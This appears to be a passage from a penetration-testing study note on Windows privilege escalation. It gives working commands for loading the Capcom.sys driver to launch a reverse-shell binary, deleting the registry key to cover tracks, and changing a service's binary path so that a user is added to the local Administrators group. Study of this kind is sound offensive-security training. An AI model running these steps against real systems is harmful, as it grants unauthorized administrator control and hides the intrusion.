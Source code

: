 The **CommandLine** string in this example would be changed to:
```c
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

We can use a tool such as [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/) to automate the process:
```console
C:\zeropio> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```

We can cover our tracks a bit by deleting the registry key added earlier
```console
C:\zeropio> reg delete HKCU\System\CurrentControlSet\Capcom
```

> Since Windows 10 Version 1803, the **SeLoadDriverPrivilege** is not exploitable, as it is no longer possible to include references to registry keys under **HKEY_CURRENT_USER**.
{: .prompt-info}

## Server Operators 

The Server Operators group allows members to administer Windows servers without needing assignment of Domain Admin privileges. Let's examine the **AppReadiness** service. We can confirm that this service starts as SYSTEM using the `sc.exe` utility:
```console
C:\zeropio> sc qc AppReadiness
```

We can use the service viewer/controller [PsService](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice).  PsService works much like the sc utility and can display service status and configurations and also allow you to start, stop, pause, resume, and restart services both locally and on remote hosts.
```console
C:\zeropio> PsService.exe security AppReadiness
```

Let's take a look at the current members of the local administrators group and confirm that our target account is not present:
```console
C:\zeropio> net localgroup Administrators
```

Let's change the binary path to execute a command which adds our current user to the default local administrators group:
```console
C:\zeropio> sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

Starting the service fails, which is expected:
```console
C:\zeropio> sc start AppReadiness
```

If we check the membership of the administrators group, we see that the command was executed successfully:
```console
C:\zeropio> net localgroup Administrators
```

